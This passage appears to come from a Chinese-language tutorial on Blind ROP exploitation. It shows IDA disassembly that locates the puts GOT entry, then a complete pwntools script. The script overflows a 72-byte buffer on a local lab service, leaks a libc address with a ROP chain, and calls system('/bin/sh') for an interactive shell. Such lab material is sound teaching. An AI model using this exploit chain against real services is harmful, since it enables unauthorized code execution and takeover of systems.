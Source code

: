 然后按下c,将此处的数据转换为汇编指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

这说明，puts@got的地址为0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 参考阅读

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
